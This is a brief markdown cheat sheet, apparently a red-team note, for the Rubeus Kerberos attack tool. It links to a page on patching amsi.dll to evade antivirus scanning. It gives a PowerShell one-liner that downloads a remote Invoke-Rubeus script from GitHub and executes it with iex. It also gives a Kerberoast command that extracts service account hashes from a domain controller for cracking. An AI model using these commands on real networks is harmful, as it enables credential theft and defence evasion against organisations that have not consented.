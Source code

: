 # Reference
- [Rubeus](https://github.com/GhostPack/Rubeus)

# Add to PowerShell
- [Patch amsi.dll](https://github.com/okazymyrov/piki/blob/master/PowerShell.md#patching-amsidll-amsiscanbuffer-by-rasta-mouse)
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/okazymyrov/piki/master/Invoke-Rubeus.ps1')
```

# Commands

## Kerberoast
```powershell
Invoke-Rubeus 'kerberoast /outfile:hashes.txt /user:USER /domain:DOMAIN /dc:DOMAIN_CONTROLLER'
```
